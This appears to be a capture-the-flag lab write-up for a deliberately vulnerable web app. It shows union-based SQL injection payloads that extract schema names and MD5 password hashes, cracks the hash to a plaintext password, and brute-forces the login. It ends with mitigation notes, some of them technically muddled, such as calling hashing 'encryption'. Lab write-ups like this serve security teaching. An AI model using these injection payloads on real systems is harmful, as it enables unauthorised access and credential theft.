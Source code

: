 We find the following by exploring the database to see if we can find any account password we can use to sign in:  

```
ID: 1 OR 1=1 UNION SELECT table_name, table_schema FROM information_schema.columns; 
First name: db_default
Surname : Member_Brute_Force
```  
-> There is a Member_Brute_Force schema (database) inside the table db_default

<!-- TABLE_SCHEMA: The name of the schema (database) to which the table belongs. -->

```
ID: 1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; 
First name: db_default
Surname : username

ID: 1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; 
First name: db_default
Surname : password
```  

Let's see what is inside the username and password fields that are in the table

```
ID: 1 OR 1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default; 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

ID: 1 OR 1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default; 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

When trying to sign in with this password, it is not working. 
Let's try to decrypt the password. Using dcode.fr, we see that the password is encoded in MD5.
-> The password is `shadow`.

We get the flag with admin / shadow.

-> To prevent this, use a harder encryption algorithm for the passwords, and encrypt also the usernames.

Let's also try to bruteforce the password using a dictionary with the 100 most used passwords.
<!-- https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords -->

URL syntax: http://192.168.56.103/index.php?page=signin&username=admin&password=hello&Login=Login#  

By running the script, and waiting a bit, we get the following:  
```
./script.sh 

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2088    0  2088    0     0  1057k      0 --:--:-- --:--:-- --:--:-- 2039k
<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>                               </div>

```

So, Brute-forcing is also working. To prevent this, we might want to restrict the number of tries to sign in into an account, and change the URL, so that it doesn't have a username and password parameter in it.